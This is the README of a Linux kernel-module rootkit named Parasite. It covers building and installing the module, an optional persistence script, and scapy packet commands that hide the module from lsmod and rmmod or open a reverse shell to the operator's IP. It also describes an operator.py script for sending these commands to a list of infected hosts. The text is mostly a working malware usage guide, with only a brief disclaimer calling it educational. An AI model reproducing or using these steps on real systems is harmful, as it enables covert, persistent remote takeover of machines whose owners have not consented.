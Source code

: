 # Parasite
This is a rootkit written in the form of a Linux kernel module (LKM), which currently contains module hiding, RCE/reverse shell, and persistence functionalities

## Installation
NOTE - Read the disclaimer if you haven't already. Additionally, it is *highly recommended* that you use this in a VM!

Works with kernel versions 5.0 and greater, tested and built natively on 5.4.0 (Ubuntu/Debian)

The following steps assume that you have already assumed root

1. Update your system via your respective package-manager, and ensure linux-headers is installed
```sh
apt update && apt install linux-headers-$(uname -r) -y
```

2. Clone repo (or download manually)
```
git clone https://github.com/MurryPuppins/Parasite.git
```

3. Enter directory and build the kernel module (requires Make)
```
cd Parasite

make
```

4. OPTIONAL: Establish persistence with the rootkit
```sh
chmod +x persist.sh

./persist.sh
```

5. Install the module
```sh
insmod Parasite.ko
```

## Usage
Once the LKM is installed, you can verify its presence via lsmod
```sh
lsmod | grep Parasite
```

### RCE/Rootkit Usage

By default, Parasite listens for TCP packets on port 6969. The rootkit has 3 options that can be used: hide, show, and reverse shell. It doesn't matter how you send the packet, but personally I used scapy. 

Note: You *must* replace **INSERT_IP** with the rootkit-infected machine's IP



- PARASITE_HIDE - Hides the module from lsmod, thus inherently prevents it from being removed via rmmod as well
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_HIDE'))
```

- PARASITE_SHOW - Puts LKM back into list, thus allowing for removal via rmmod
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_SHOW'))
```

- PARASITE_RSHELL127.0.0.1 - This spawns a reverse shell using your IP (change 127.0.0.1 to your IP). You will need to be listening for port 5555 (default) on your machine to catch the shell
```
sr1(IP(dst="INSERT_IP")/TCP(dport=6969)/Raw(load='PARASITE_RSHELL127.0.0.1))
```

### operator.py script

The *operator.py* script is intuitively simple as it automates all of the scapy commands (scapy must be pip-installed). Simply modify the *scope.txt* file to include the list of IP's you've infected, and then run the python file via the following:
```
python3 operator.py scope.txt
```

Some things to take note of:
- Run *help* within the script to get a list of available commands
- The reload/ls command has some flaws due to the designed nature of it; the rootkit can still be present on the box and return a red state. 
- To spawn a reverse shell, you must have a second terminal open and listening to the port (default: 5555)
- Lastly, since the rootkit is extremely quiet, you may have to spam the packet functionality a little, as packets can be dropped, intercepted, etc. 

## Uninstallation
To disable Parasite from running on the host, you can remove it *assuming it isn't hidden*
```sh
rmmod LKM
```

If you ran the persistence script, you will need to undo the script. Additionally, using your preferred text editor, open up `etc/modules` and comment/remove the line containing `Parasite`
```sh
rm /lib/modules/$(uname -r)/kernel/lib/Parasite.ko

depmod -a
```


## Disclaimer
The author is in no way responsible for any illegal use of this software. It is provided purely as an educational proof of concept. I am also not responsible for any damages or mishaps that may happen in the course of using this software. Use at your own risk!

## References
https://infosecwriteups.com/linux-kernel-communication-part-1-netfilter-hooks-15c07a5a5c4e <br />
https://github.com/d3adzo/poetry <br />
http://vger.kernel.org/~davem/skb_data.html <br />
https://github.com/h3xduck/Umbra/blob/master/kernel/src/netfilter_manager.c
